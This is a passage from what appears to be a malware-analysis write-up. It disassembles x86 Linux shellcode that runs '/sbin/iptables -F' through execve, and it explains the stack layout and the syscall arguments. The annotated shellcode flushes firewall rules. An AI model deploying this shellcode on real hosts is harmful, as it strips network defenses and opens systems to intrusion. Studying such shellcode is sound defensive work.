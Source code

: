```nasm
00000009  50                push eax

                            ; string ///sbin/iptables
0000000A  68626C6573        push dword 0x73656c62
0000000F  6869707461        push dword 0x61747069
00000014  6862696E2F        push dword 0x2f6e6962
00000019  682F2F2F73        push dword 0x732f2f2f

                            ; save the pointer to the string into EBX
0000001E  89E3              mov ebx,esp

                            ; array of pointers to command-line arguments:
                            ;   - ebx -> pointer to string '///sbin/iptables'
                            ;   - esi -> pointer to string '-F'
                            ;   - eax -> 0x00000000 (null terminator of the array)
00000020  50                push eax
00000021  56                push esi
00000022  53                push ebx
```

So far, the author of this shellcode pushed the string `///sbin/iptables` to the stack, saving its pointer into the register `EBX`, which is going be used by `execve` as the **1st argument** of `iptables`.

Follows the function prototype of `execve`:

```cpp
int execve(
  // executable to run
  const char *pathname,

  // array of command-line arguments
  char *const argv[],

  // array of environment variables
  char *const envp[]
);
```

In this case `EBX` is `pathname`, i.e. a pointer to a string indicating the executable to run.

While `ECX` is a pointer to an array of pointers, terminated by the `DWORD` `0x00000000`.

On the stack, it would look like this:

```nasm
; *ebx -> '///sbin/iptables'
; *esi -> '-F'
; 0x00000000
```

Follows the rest of the disassembly:

```nasm
                            ; 2nd argument of execve:
                            ;   pointer to array of pointers to strings acting as
                            ;   command-line arguments of the program
00000023  89E1              mov ecx,esp

                            ; 3rd argument of execve:
                            ;   pointer to array of pointers to env. variables
00000025  89C2              mov edx,eax

                            ; call execve syscall
00000027  B00B              mov al,0xb
00000029  CD80              int 0x80
```
